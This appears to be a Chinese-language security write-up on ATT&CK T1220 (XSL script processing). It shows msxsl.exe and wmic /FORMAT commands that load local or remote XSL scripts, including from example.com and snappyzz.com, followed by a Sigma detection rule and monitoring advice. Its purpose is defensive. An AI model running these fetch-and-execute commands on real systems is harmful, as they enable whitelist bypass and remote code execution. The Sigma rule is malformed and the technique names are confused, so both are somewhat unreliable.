 # T1220-win-XSL Script Processing

## 来自ATT&CK的描述

Extensible Stylesheet Language (XSL)是用来描述和渲染XML文件的。为了进行复杂的操作，XSL增加了不同的语言。红队可以使用它来运行二进制代码绕过白名单的检查。和Trusted Developer Utilities相似，msxsl.exe可以在本地或者远程运行JavaScript，虽然msxsl.exe不是默认安装了，但是红队可以打包它并放在客户端。msxsl.exe运行时接收两个参数，XML源文件和XSL stylesheet。既然xsl文件也是一个xml，红队可以使用xsl文件两次，当msxsl.exe运行的时候。红队可以给xml/xsl文件任意的扩展名。

命令行的例子如下:

-   msxsl.exe customers[.]xml script[.]xsl
-   msxsl.exe script[.]xsl script[.]xsl
-   msxsl.exe script[.]jpeg script[.]jpeg

另一种技术叫做Squiblytwo，它使用windows管理工具调用JScript或VBScript在xsl文件中，这个技术也可以执行远程或本地的script，和Regsvr32一样，Squiblydoo也是一个windows信任的工具。

命令行的例子如下:
-   Local File: wmic process list /FORMAT:evil[.]xsl
-   Remote File: wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”

##  测试案例

无

## 检测日志

Windows安全日志/Sysmon日志

## 测试复现

### 测试1 MSXSL BYPASS USING LOCAL FILES

首先需要下载工具msxsl.exe，目前尚未找到可下载的地址

```
C:\Windows\Temp\msxsl.exe msxslxmlfile.xml msxslscript.xsl
```

尚未复现成功

### 测试2

```
msxsl.exe http://snappyzz.com/msxslxmlfile.xml http://snappyzz.com/msxslscript.xsl
```

## 日志留痕

可参考Windows 安全日志4688事件说明、Windows Sysmon安全日志1事件说明。

## 检测规则/思路
### sigma规则
```yml
title: windows下使用msxsl.exe加载恶意程序
description: msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过该程序，我们可以执行JavaScript进而执行系统命令。
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​       EventID: 4688 #Windows 安全日志
        Process_name: 'msxsl.exe' #Application Name
        Commanline: 
		         - '*.xsl'
				 - '*.xml'
				 - 'http://*'
​    condition: selection
level: medium
```


### 建议

使用进程监控来监测msxsl.exe和wmic.exe的执行和参数。将这些工具最近的调用与之前已知的良好参数和加载文件的历史进行比较，以确定异常和潜在的恶意活动（例如：URL命令行参数、创建外部网络连接、加载与脚本相关的DLLs）。脚本调用前后使用的命令参数也可能有助于确定被加载的有效载荷的来源和目的。

在一个不用于这些目的的系统上出现msxsl.exe或其他能够实现代理执行的实用程序，通常用于开发、调试和逆向工程，可能是可疑的。

## 参考推荐
MITRE-ATT&CK-T1220

<https://attack.mitre.org/techniques/T1220>

跟着ATT&CK学安全之defense-evasion

<https://snappyjack.github.io/articles/2020-01/%E8%B7%9F%E7%9D%80ATT&CK%E5%AD%A6%E5%AE%89%E5%85%A8%E4%B9%8Bdefense-evasion>

